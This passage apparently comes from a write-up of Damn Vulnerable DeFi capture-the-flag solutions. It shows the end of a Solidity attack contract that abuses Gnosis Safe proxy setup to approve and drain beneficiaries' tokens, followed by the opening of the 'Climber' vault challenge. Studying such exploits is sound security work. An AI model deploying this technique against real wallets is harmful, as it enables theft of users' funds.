  ```solidity
        module = new Module();
        walletFactory = _walletFactory;
        token = IERC20(_token);
        registry = _registry;
        singletonCopy = _singletonCopy;
    }
    
    function attack(address[] memory initialBeneficiaries, address player, address recovery) public {
        for(uint256 i=0; i < initialBeneficiaries.length; i++){
            newProxy(initialBeneficiaries[i], recovery);
        }
    }

    function newProxy(address beneficiare, address recovery) internal returns(bytes memory initializer)  {
        address[] memory owners = new address[](1);       
        owners[0] = beneficiare;
        initializer =  abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)", 
            owners, 
            1,
            address(module),
            abi.encodeCall(module.approve, (address(this), token, PAYMENT_AMOUNT)),  
            address(0),
            address(0),
            0,
            address(0)
        );
        walletFactory.createProxyWithCallback(
            singletonCopy,
            initializer,
            0,
            IProxyCreationCallback(registry)
        );
        token.transferFrom(WalletRegistry(registry).wallets(beneficiare), recovery, PAYMENT_AMOUNT);
    }
}
```
</details>




---
###  Climber

#### Task: 

There’s a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the [UUPS pattern](https://eips.ethereum.org/EIPS/eip-1822).
